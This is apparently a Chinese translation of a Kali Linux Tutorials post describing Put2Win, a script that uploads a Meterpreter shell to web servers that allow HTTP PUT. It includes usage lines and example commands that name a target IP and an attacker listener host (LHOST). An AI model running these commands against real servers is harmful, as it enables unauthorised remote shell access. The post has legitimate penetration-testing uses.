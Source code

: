# PUT 2 win–通过 PUT HTTP 方法获取 Meterpreter 来自动化 Shell 上传的脚本

> 原文：<https://kalilinuxtutorials.com/put2win-script-automatize-shell-upload/>

Put2Win 是一个脚本，通过 PUT HTTP 方法来获取 meterpreter，从而实现 shell 上传的自动化。正确的操作需要安装 nmap 和 msfvenom 工具。[![](img//f69a40ed161a8cb31f1239d9b867608e.png)](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ)

**又读**[**Joomscan–OWASP Joomla 漏洞扫描器项目**](https://kalilinuxtutorials.com/joomscan-owasp-vulnerability-scanner/)

## **Put2Win 用法**

```
**./Put2win.sh -h**
```

这个脚本通过使用 HTTP 方法来获取 meterpreter，从而实现了 shell 上传的自动化。

```
Usage: ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST
```

示例:

```
**./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10**
**./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10**
```

[![](img//d861a9096555aeb1980fc054015933d7.png) ](https://github.com/sysdevploit/put2win) **信用:@devploit**
